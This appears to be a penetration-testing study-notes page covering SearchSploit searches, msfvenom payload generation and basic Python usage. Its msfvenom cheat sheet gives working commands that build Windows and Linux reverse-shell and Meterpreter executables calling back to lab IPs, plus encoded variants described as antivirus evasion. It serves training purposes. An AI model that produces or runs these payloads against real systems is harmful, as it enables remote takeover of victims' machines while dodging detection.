

# Exploitation

## SearchSploit - Exploit Database search utility

This tool searches Exploitdb.com and allows the download of offline copies of the exploits found.  This is provided by default in Kali distros.

### Install & Updating

This is already installed on Kali Linux, but you can install it with these commands:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Make sure to update your package to get the most up to date archives:

```bash
searchsploit -u
```

### Storage

- Files are stored in `/usr/share/exploitdb/` 

- The exploits directory divides exploits by OS, architecture, and scripting language.

### Searching

Use the searchsploit utility to search through the archives and display results based on search terms.

```bash
# Search for an exploit by keyword(s)
searchsploit [options] term1 term2...
-w	# Show URL's to Exploit-DB.com rather than the local path
-t	# Search JUST the xploit title (default is title and file's path)

# Examples
searchsploit remote smb microsoft windows
```

Results show two columns by default: the Exploit Title and the Path. 



- The Exploit Title is a short description of the exploit.  You can preview the exploit to get more details.
- The Path describes the path on ExploitDB.com that could be used to load it in a web browser.  The number corresponds to the ExploitDB ID given to the exploit. 
- The extension shown in the path indicates what language the exploit is written in (Ex:  py = Python)

#### Strict Searches

By default, searchsploit does fuzzy searching to match related items, but for multiple terms this can produce a lot of irrelevant results.  To make it use exactly the terms specified, use the strict search option:

```bash
searchsploit -s TERM1 TERM2
```

#### Exclude terms:

```bash
searchsploit TERM --exclude="NOTHIS|ORTHIS|THISEITHER"
```

### Preview an Exploit

To see details on an exploit:

```bash
searchsploit -x NAME/NUMBER
```

### Downloading an Exploit

Use searchsploit to mirror the exploit:

```bash
searchsploit -m NAME/NUMBER

# Options
# You can specify the exploit by its number (no extension) or the path to the code
```

## Metasploit Framework Venom

This can be run from Bash or from Metasploit.  In MSF, you can use the `msfvenom` command or the `generate` command from within a payload.

### Creating a Payload

The basic formula for creating a payload with msfvenom is:

1. Choose a payload type (this should match whatever application and OS you are targeting)

   ```bash
   # Show all payloads
   msfvenom -l payloads  # You will probably want to grep this output because it's a LONG list
   ```

2. Specify options for the payload (for instance, a reverse shell requires the IP and Port the target should connect back to)

   ```bash
   # Show all options for a payload
   msfvenom -p YOUR_PAYLOAD --list-options
   
   # NOTE: Some older versions of msfvenom use --payload-options instead
   ```

3. Specify a format to create the payload in

   ```bash
   # Show all output options
   msfvenom -l formats
   ```

4. Specify an output file (without this, it will dump the payload to the screen for some options)

5. (OPTIONAL) You can also encode the payload to avoid antivirus.

   ```bash
   # Show all encoders
   msfvenom -l encoders
   ```

### msfvenom Cheat Sheets

Windows x86 Reverse TCP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o win_revtcp_8000.exe
```

Windows x64 Reverse TCP Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x64 --format exe -o win_revtcp_8000.exe
```

Linux Meterpreter Payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhttp_8001.elf
```

Linux Reverse TCP Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhtt_8000.elf
```

### Executable Files

#### Unencoded Executables

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o shell_reverse.exe

# Options
-p	# Payload
-f	# Format
-o	# Output filename
```

#### Encoded Executables

Encoding is normally used to bypass character limitations but also serves as a rudimentary AV evasion technique.  More encoding iterations can be used to evade signature detection.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse.exe

# Options
-e	# Encoder to use
-i	# Number of encoding iterations
```

HINT:  x86\shikata_ga_nai is the best

### Links & Cheat Sheets

https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/

https://netsec.ws/?p=331

# Coding

## Python3 Scripts

This website is an excellent source of information for Python programming:  https://www.w3schools.com/python/default.asp

### Usage

Python is an interpreted programming language, which means code is run directly from files fed into the python interpreter to execute.  Python also has an interactive interpreter where you can enter code line by line directly.

The general syntax to run code in a file is:

```python
python myfile.py
# or
py myfile.py
```

To access the interpreter prompt, simply omit the filenames:

```python
python
# or
py
```

This will bring you to a `>>>` prompt to let you know it is ready to receive your code.  To exit the prompt, type:

```python
# Exit interactive interpreter
exit()
```

### Indention Sensitivity

Python is INDENT SENSITIVE.  You will notice that there are no braces or ending statements to delineate blocks of code.  This is because grouping is handled by indentions.

There is no set amount of spaces or tabs, it just has to be indented at least one space, and it has to be consistent for that block of code.

```python
# This is okay
if 1 > 2
	<This is part of the if>
	<so is this>
<not part of if>

# This is not okay, inconsistent spaces within code block
if 1 > 2
 <This is part of the if>
  <so is this>
<but not this>
```
